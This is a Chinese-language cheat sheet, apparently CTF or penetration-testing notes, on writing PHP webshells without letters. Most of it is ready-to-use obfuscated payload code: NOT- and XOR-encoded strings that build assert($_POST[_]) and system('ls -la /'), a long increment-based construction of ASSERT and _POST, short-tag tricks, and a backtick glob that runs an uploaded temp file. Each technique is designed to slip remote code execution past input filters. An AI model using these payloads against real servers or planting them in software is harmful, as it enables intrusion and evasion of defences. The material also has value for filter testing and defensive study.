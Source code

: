 # 无字母webshell

## 位运算法

### 取反法

> 用CyberChef 辅助 NOT

- 需求条件：可以使用`~_()`以及任意一种引号

```bash
$_ = ~"%9e%8c%8c%9a%8d%8b";   # 得到assert，此时$_="assert"
$__ = ~"%a0%af%b0%ac%ab";   # 得到_POST，此时$__="_POST"
$___ = $$__;   # $___=$_POST
$_($___[_]);   # assert($_POST[_])
```

```php
$_ = ~"%8c%86%8c%8b%9a%92";   # 得到 system
$__ = ~"%93%8c%df%d2%93%9e%df%d0";   # 得到 ls -la /
$_($__);   # system("ls -la /")
```

如果过滤`$`（仅php7）

```php
(~"%8c%86%8c%8b%9a%92")(~"%93%8c%df%d2%93%9e%df%d0");
```

### 异或法

- 需求条件：可以使用`^$_.=+()[]{}`以及任意一种引号

使用CyberChef XOR

```php
("%aa%aa%aa%aa%aa%aa"^"%d9%d3%d9%de%cf%c7")("%aa%aa%aa%aa%aa%aa%aa%aa"^"%c6%d9%8a%87%c6%cb%8a%85");
# system("ls -la /")
```

## 自增法

- 需求条件: 可以使用`$_.=+()[]`以及任意一种引号

```php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```

```php
<?php
$_=[].'';
$__ = $_[$__];

$___=$__;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # S
$___=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # Y
$___.=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # S
$___.=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # T
$___.=$_;

$_=$__;
$_++;$_++;$_++;$_++; # E
$___.=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # M
$___.=$_;

# Arg

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # P
$____=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # O
$____.=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # S
$____.=$_;

$_=$__;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # T
$____.=$_;

$____='_'.$____;

$___($$____[''=='']);

// $_POST[$____]


// echo $____;


# system
```

## 无法用`;`结束一行

在php5.4及更高版本使用`<?= 123 ?>`语法即可

短标签要先把原来的php代码闭合

```php
<?php

eval('?><?= 123 ?>');
```

php5.4更低版本开启short_open_tag配置项也可以使用上述语法

## PHP5过滤`$`

> 参考：https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

知识点1

```
`` 可以用于在php中直接执行执行系统命令
```

知识点2

上传的文件会被临时保存在`/tmp`



用`[@-[]`表示大写字符

```python
chr(ord('A')-1)
chr(ord('Z')+1)
```





```php
`. /???/????????[@-[]`;
```



默认无回显
